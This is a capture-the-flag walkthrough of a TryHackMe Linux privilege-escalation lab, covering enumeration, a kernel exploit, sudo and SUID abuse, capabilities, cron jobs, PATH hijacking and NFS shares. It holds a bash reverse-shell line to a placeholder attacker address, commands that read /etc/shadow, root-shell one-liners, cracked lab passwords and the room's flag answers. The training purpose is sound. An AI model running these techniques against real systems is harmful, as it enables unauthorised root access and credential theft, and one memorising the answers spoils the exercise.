# 🪜 A Step-by-Step Guide on How to Gain Root Access in Linux 

## 🔍 Enumeration

We are given access to the machine using a low-privileged user account.

Enumeration is the first step in gaining full access to the system. Here are some useful commands that can be used to gather more information on the target machine.

Command | Purpose | Command result on the machine
---- | ---- | ----
hostname | will give us the hostname of te target machine|wade7363
`uname -a` | detail information about system kernel | Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
`cat /proc/version` | The proc filesystem (procfs) provides information about the target system processes. | Linux version 3.13.0-24-generic (buildd@panlong) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014|
`cat /etc/issue` | Another way to identify OS
`ps`| show running system processes on current shell | -
`ps -A` | view all running processes| -
`ps axjf` | view process tree | -
`ps aux` | show processes for all users (a), display user that launched the process (u), and show processes that are not attached to a terminal (x). | -
`env` | show environmental variables | -
`sudo -l` | displays a list (l) with all  the commands that user can run using sudo | Sorry, user karen may not run sudo on wade7363.
`ls -la` | displays all files and folders in a current directory as a list (l), including hidden items (a) | -
`id` | shows overview of the user's privilege level and group membership | uid=1001(karen) gid=1001(karen) groups=1001(karen)
`cat /etc/passwd \| grep home` | view list of all users but narrow it down to "real" ones that have their `home` directory | syslog:x:101:104::/home/syslog:/bin/false  usbmux:x:103:46:usbmux daemon,,,:/home/usbmux:/bin/false  saned:x:108:115::/home/saned:/bin/false  matt:x:1000:1000:matt,,,:/home/matt:/bin/bash  karen:x:1001:1001::/home/karen:
`ifconfig` | Displays information about network interfaces of the system | -
`ip route` | display network routes | -
`netstat` | information on the existing connections. `-a` for all listening ports, `-at` TCP protocols, `-au` UDP protocols, `-l` ports in "listening" mode, `-s` list network usage statistics, `-p` PID information, `-i` interface statistics, `-a` all sockets, `-n` do not resolve names `-o` to display timers. | -

One more technique we can utilize is a simple file search. Here are some examples presented in the TryHackMe room:

>     find . -name flag1.txt: find the file named “flag1.txt” in the current directory
>     find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
>     find / -type d -name config: find the directory named config under “/”
>     find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
>     find / -perm a=x: find executable files
>     find /home -user frank: find all files for user “frank” under “/home”
>     find / -mtime 10: find files that were modified in the last 10 days
>     find / -atime 10: find files that were accessed in the last 10 day
>     find / -cmin -60: find files changed within the last hour (60 minutes)
>     find / -amin -60: find files accesses within the last hour (60 minutes)
>     find / -size 50M: find files with a 50 MB size
>     find / -writable -type d 2>/dev/null : Find world-writeable folders
>     find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
>     find / -perm -o w -type d 2>/dev/null: Find world-writeable folders
>     find / -perm -o x -type d 2>/dev/null : Find world-executable folders
>     find / -name perl*
>     find / -name python*
>     find / -name gcc*
>     find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 

### ❓ Q&A section

#### 🖥️ What is the hostname of the target system?

`hostname` > wade7363

#### 🧠 What is the Linux kernel version of the target system?

`uname -a` > ~~Linux wade7363~~ **3.13.0-24-generic** ~~#46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux~~

#### 🐧 What Linux is this?

`cat /etc/issue` > **Ubuntu 14.04 LTS** ~~\n \l~~

#### 🐍 What version of the Python language is installed on the system?

This step is challenging because the answer cannot be obtained from the previously presented commands. `find -name python*` won't help here. We need to execute `python --version`> ~~Python~~ **2.7.6**

#### 🛑 What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)

From previous question we know that kernel version is **3.13.0-24-generic**, so a brief search reveals the answer: **CVE-2015-1328**.

>
>[Source](https://www.cvedetails.com/cve/CVE-2015-1328/)

## 🔐 Privilege Escalation

### 💥 Kernel Exploits

Now we know the CVE associated with the target machine. Let's leverage that using Metasploit



Now we need to setup session using ssh.



Next, I am going to stage the identified exploit module.



Let's run it and hope for the best.



We have access to root.



#### 🏁 What is the content of the flag1.txt file?

Quick search for the file...



and we have the answer: **THM-28392872729920**

### 🧑‍💻 Sudo

#### ⚙️ Leveraging application functions

If we did not find any known exploit to use, we can use some tricks to leak information using internal functions of the applications. In the example shown by TryHackme we could use Apache2 option  to load `/ect/shadow`

#### 🧬 Leverage LD_PRELOAD

LD_PRELOAD holds a list of user-specified, ELF-shared objects. It enables users to load these shared objects into a process's address space before any other shared library and prior to the execution of the program itself.

We can exploit this dynamic link to ultimately gain access to console with root privileges. More about LD_PRELOAD Trick [read here](https://www.baeldung.com/linux/ld_preload-trick-what-is)

#### ❓ Q&A Section

##### 🔢 How many programs can the user "karen" run on the target system with sudo rights?



**Answer is:** 3 (find,less,nano)

##### 🚩 What is the content of the flag2.txt file?

Usage of `find / -name flag2.txt` showed path to flag2.txt



**Answer is:** THM-402028394

##### 🌐 How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

**Answer:** `sudo nmap --interactive`

##### 🔑 What is the hash of frank's password?

Frank's password is held in `/etc/shadow`, to access it, we need `sudo`. Karen cannot use `cat` to view this file, as we learned from `sudo -l` but she has access to `nano`. Executing `nano /etc/shadow` reveals Frank's password hash.



**Which is:** $6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18>

### 🧷 SUID

> SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner.
[Source](https://www.scaler.com/topics/special-permissions-in-linux/)

Executing `find / -type f -perm -04000 -ls 2>/dev/null` we can find all files with additional "s" permission. On [GTFOBins](https://gtfobins.org/#//^suid$) we can find which binaries are exploitable when SUID is set.

In provided VM we can exploit base64 since it has set "s" permission.
On GTFOBins we find [correct syntax](https://gtfobins.org/gtfobins/base64/)

`base64 /path/to/input-file | base64 --decode`

#### ❓ Q: Which user shares the name of a great comic book writer?

Executing `base64 /etc/shadow | base64 --decode`



**Answer:** gerryconway

#### 🔐 Q: What is the password of user2?

From `/etc/shadow/` we scrape user2 credentials -
>user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/

In this room an example of creating new user TryHackMe used salt: THM

I've got a hit on [hashes.com](https://hashes.com/en/decrypt/hash)



**Password is:** Password1

#### 🚩 Q: What is the content of the flag3.txt file?

Found location of the file in `/home/ubuntu/flag3.txt` and after executing `base 64 /home/ubuntu/flag3.txt | base 64 --decode` got the flag



**The flag is:** THM-3847834

### 🧠 Capabilities

Similar to SUID are Capabilities. It is adding feature to the app, so tha binary can run with higher privilege user. To get a list with enabled capabilities, we use `getcap`. To find all apps with enabled capabilities we need to use `getcap -r / 2>/dev/null` where we also redirect errors to `/dev/null`.



Note that we would not find any of those binaries on the SUID list.
Now once again GTFOBins, comes to the rescue.

#### 🔢 Q: How many binaries have set capabilities?

**Answer is:** 6

#### 🛠️ Q: What other binary can be used through its capabilities?

In TryHackMe example they show how to exploit vim, so we are looking for something different. View is also on out list.

**Answer is:** view

#### 🚩 Q: What is the content of the flag4.txt file?

After capabilities exploitation we get an



**Answer:** THM-9349843

### ⏱️ Cron Jobs

Cron jobs are in a way just like Windows scheduled tasks. Under some conditions cron jobs can provide escalation vector. If task runs with root privileges we can edit script and still run it as root.

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

We can see that we have script `backup.sh` running every minute but file don't exist anymore. So let's leverage it by implanting bash reverse shell `bash -i >& /dev/tcp/XXX.XXX.XXX.XXX/YYYY 0>&1` and on the attacker side `nc -nlvp YYYY` and we wait for Con Job to execute. After few minutes i still didn't get connection on AttackBox, so i added permissions `chmod +x backup.sh`, and we're in.



#### 🔢 Q: How many user-defined cron jobs can you see on the target system?

From previous screenshot we can see four lines.

**Answer:** 4

#### 🚩 Q: What is the content of the flag5.txt file?



**Answer:** THM-383000283

#### 🔑 Q: What is Matt's password?

We can get his hash

Now we simply try to crack it using rockyou wordlist



**Answer:** 123456

### 🛤️ PATH

PATH is an environmental variable in Linux and other Unix-like operating systems that tells the shell which directories to search for executable files (i.e., ready-to-run programs) in response to commands issued by a user.

In the presented scenario we are creating a script

    #include <unistd.h>
    void main()
    {   setuid(0);
        setgid(0);
        system("thm");
    }

Next we compile it into an executable and set the SUID bit.

If any writable folder is listed under PATH we could create a binary under that directory and have our “path” script run it. As the SUID bit is set, this binary will run with root privilege
We can look for writeable folders with `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`

The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the `export PATH=/tmp:$PATH` command accomplishes this.

#### 📁 Q: What is the odd folder you have write access for?



 **Answer:** /home/murdoch

#### 🚩 Q: Exploit the $PATH vulnerability to read the content of the flag6.txt file

 We can use already prepared script.

 We only need to add writeable folder to PATH.

     export PATH=/home/murdoch:$PATH
     echo $PATH
     cd /home/murdoch
     echo “/bin/bash” >> thm
     chmod 777 thm
     ./test



**Answer:** THM-736628929

### 🌐 NFS

Last but not least option to gain elevated permissions is to exploit shared folders and remote management interfaces such as Telnet or SSH. Other vector could be a misconfigured network shell.

The **N**etwork **F**ile **S**haring server configuration can be found in `/etc/exports` and usually can be read by users. Attack method is similar to PATH.

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to `nfsnobody` and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

 We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable. set SUID bits and run it.

#### 📂 Q: How many mountable shares can you identify on the target system?

 We run `sudo showmount -e 10.48.182.239`

 

 **Answer:** 3

#### ⚠️ Q: How many shares have the "no_root_squash" option enabled?

 We can see it on the attacked machine `cat /etc/exports`

 

 **Answer:** 3

#### 👑 Gain a root shell on the target system



Script goes as follows



No we just grant it SUID and execute ont the target machine



##### 🚩 Q: What is the content of the flag7.txt file?



**Answer:** THM-89384012

## 🧩 Capstone Challenge

> You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root.
> We designed this room to help you build a thorough methodology for Linux privilege escalation that will be very useful in exams such as OSCP and your penetration testing engagements.
>
> Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.
>
> You can access the target machine over your browser or use the SSH credentials below.
>
>     Username: leonard
>     Password: Penny123

First I checked if there is ay sudo command we can run, but no luck.
Next was SUID search and we got a hit, it is one more `base64`.



With this and a little deduction i was able to get flag2.txt



How about missy's flag? With help of `base64` i scrapped `/etc/shadow` and put Johnny to task of cracking passwords.



And here we have the first flag



### 🔓 Can we gain root access through missy's account?

After running `sudo -l` we know that missy can run `find` as `sudo` and fortunately for us, it is on the [GTFOBins](https://gtfobins.org/gtfobins/find/) list



and after executing `find . -exec /bin/sh \; -quit` we get to the root.



#### 🚩 Q: What is the content of the flag1.txt file?

**Answer:** THM-42828719920544

#### Q: 🚩 What is the content of the flag2.txt file?

**Answer:** THM-168824782390238

### ✅ Conclusion

And that concludes our journey through Linux privilege escalation techniques 🚀
This walkthrough demonstrated that privilege escalation is often methodical, creative, and exploratory—an essential skill for penetration testing and OSCP-style assessments. I hope this walkthrough was both informative and educational. See you on the next one.
